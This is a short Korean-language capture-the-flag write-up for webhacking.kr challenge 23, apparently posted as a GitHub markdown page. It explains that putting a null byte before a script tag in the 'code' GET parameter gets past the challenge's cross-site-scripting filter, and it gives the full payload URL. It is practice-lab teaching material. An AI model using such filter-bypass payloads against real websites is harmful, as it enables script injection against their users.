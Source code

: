 # webhacking.kr write up
블로그가 너무 느려서 마크다운으로 갈아탔다

## prob 23
![prob23](./img/prob23.png)<br>
`Your mission is to inject <script>alert(1);</script>`이라고 한다.
그냥 GET으로 넘길 때 code값 맨 앞에 NULL(%00)을 추가해 주면 풀린다.
### payload
`http://webhacking.kr/challenge/bonus/bonus-3/index.php?code=%00<script>alert(1);</script>`
